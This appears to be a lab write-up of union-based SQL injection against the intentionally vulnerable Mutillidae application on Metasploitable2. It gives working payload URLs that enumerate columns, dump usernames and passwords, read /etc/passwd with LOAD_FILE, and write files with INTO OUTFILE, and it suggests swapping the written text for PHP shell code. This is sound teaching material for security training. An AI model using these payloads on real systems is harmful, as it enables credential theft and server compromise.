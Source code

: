 ## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table. image

![eh exp 818](https://github.com/swetha1510/sqlinjection/assets/120623583/383868f1-0b16-42c1-8a61-7c04a46150fc)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![eh exp 819](https://github.com/swetha1510/sqlinjection/assets/120623583/f1372fdd-30c2-4814-9700-bb4da4825f6e)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![eh exp 820](https://github.com/swetha1510/sqlinjection/assets/120623583/02e79042-3dc7-4838-9766-94ce7a1b469a)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![eh exp 821](https://github.com/swetha1510/sqlinjection/assets/120623583/045c1a74-90ef-4cde-9e97-9ca8f00d3f50)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
